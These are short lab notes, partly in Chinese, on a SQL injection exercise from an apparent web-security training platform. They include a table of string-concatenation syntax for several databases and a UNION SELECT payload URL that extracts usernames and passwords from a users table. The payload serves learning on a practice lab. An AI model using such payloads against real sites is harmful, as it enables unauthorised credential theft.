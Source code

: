 <img src=".\图片\Snipaste_2023-06-03_11-51-15.png" alt="Snipaste_2023-06-03_11-51-15" style="zoom:67%;" />

发现第一位是数字型，第二位为字符型，且回显在第二位

2、String concatenation

You can concatenate together multiple strings to make a single string.（不同数据库字符串的连接方法）

| Oracle     | `'foo'||'bar'`                                               |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `'foo'+'bar'`                                                |
| PostgreSQL | `'foo'||'bar'`                                               |
| MySQL      | `'foo' 'bar'` [Note the space between the two strings] `CONCAT('foo','bar')` |

测试：

```http
https://0a7d006c044a298a836de9ad004a004a.web-security-academy.net/filter?category=Gifts' union select '1',username||password  from users-- 
```
